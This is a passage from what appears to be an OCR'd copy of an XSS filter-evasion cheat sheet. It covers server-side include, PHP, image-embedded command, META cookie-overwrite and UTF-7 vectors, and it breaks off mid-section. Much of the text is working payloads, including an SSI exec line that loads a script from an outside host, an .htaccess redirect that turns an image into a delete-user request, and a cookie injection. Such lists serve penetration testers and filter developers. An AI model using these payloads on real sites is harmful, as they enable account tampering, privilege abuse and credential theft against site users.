     `<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->`

## PHP

Requires PHP to be installed on the server to use this XSS vector.
Again, if you can run any scripts remotely like this, there are probably
much more dire issues:

    `<? echo('<SCR)';`  
    `echo('IPT>alert("XSS")</SCRIPT>'); ?>`

## IMG Embedded commands

This works when the webpage where this is injected (like a web-board) is
behind password protection and that password protection works with other
commands on the same domain. This can be used to delete users, add users
(if the user who visits the page is an administrator), send credentials
elsewhere, etc.... This is one of the lesser used but more useful XSS
vectors:

    `<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">`

### IMG Embedded commands part II

This is more scary because there are absolutely no identifiers that make
it look suspicious other than it is not hosted on your own domain. The
vector uses a 302 or 304 (others work too) to redirect the image back to
a command. So a normal \<IMG SRC="httx://badguy.com/a.jpg"\> could
actually be an attack vector to run commands as the user who views the
image link. Here is the .htaccess (under Apache) line to accomplish the
vector (thanks to Timo for part of this):

    `Redirect 302 /a.jpg http://victimsite.com/admin.asp&deleteuser`

## Cookie manipulation

Admittedly this is pretty obscure but I have seen a few examples where
\<META is allowed and you can use it to overwrite cookies. There are
other examples of sites where instead of fetching the username from a
database it is stored inside of a cookie to be displayed only to the
user who visits the page. With these two scenarios combined you can
modify the victim's cookie which will be displayed back to them as
JavaScript (you can also use this to log people out or change their user
states, get them to log in as you, etc...):

    `<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">`

## UTF-7 encoding

If the page that the XSS resides on doesn't provide a page charset
header, or any browser that is set to UTF-7 encoding can be exploited
with the following (Thanks to Roman Ivanov for this one). Click here for
an example (you don't need the charset statement if the user's browser
is set to auto-detect and there is no overriding content-types on the
page in Internet Explorer and Netscape 8.1 in IE rendering engine mode).
This does not work in any modern browser without changing the encoding
type which is why it is marked as completely unsupported. Watchfire
found this hole in Google's custom 404 script.:
